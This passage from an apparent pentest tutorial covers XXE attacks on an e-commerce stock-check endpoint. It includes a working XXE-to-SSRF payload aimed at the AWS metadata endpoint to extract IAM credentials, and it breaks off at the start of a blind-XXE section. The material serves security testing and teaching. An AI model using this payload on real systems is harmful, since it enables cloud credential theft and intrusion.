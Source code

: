 1) Consider we're testing an E-commerce application in which application fetches stock of the product from server and display the result the and request goes like this ...


	   POST /product/stock HTTP/2
	   Host: subdomain.target.com
	   Cookie: session=ULqvEo6l9eIJ36rlH4NmVQivmqegNurA
	   Content-Length: 107
	   ...
	   ...
	   Connection: close
       ..
	   <?xml version="1.0" encoding="UTF-8"?>
	   <stockCheck>
	      <productId>2</productId>
		  <storeId>1</storeId>
	   </stockCheck>

2) Now as same as the above case(where we extract the file content) , we can perform SSRF(server side request forgery) attack.
3) To perform SSRF , we add the `localhost` or applications `internal host` in the place of `file://` in the payload
4) Now the whole payload look like this...

       <?xml version="1.0" encoding="UTF-8"?>
	   <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]>
	   <stockCheck>
	      <productId>2&xxe;</productId>
	      <storeId>1</storeId>
	    </stockCheck>
    
 5) In the above case we perform SSRF to extract AWS creds , we can also perform on applications internal services.
 ---
### ##BLIND XXE 

1) Consider we're testing an E-commerce application in which application fetches stock of the product from server but does not display the result.


	   POST /product/stock HTTP/2
		Host: subdomain.target.com
		Cookie: session=ULqvEo6l9eIJ36rlH4NmVQivmqegNurA
		Content-Length: 107
		...
		...
		Connection: close
       ..
	   <?xml version="1.0" encoding="UTF-8"?>
	   <stockCheck>
	     <productId>2</productId>
		 <storeId>1</storeId>
       </stockCheck>
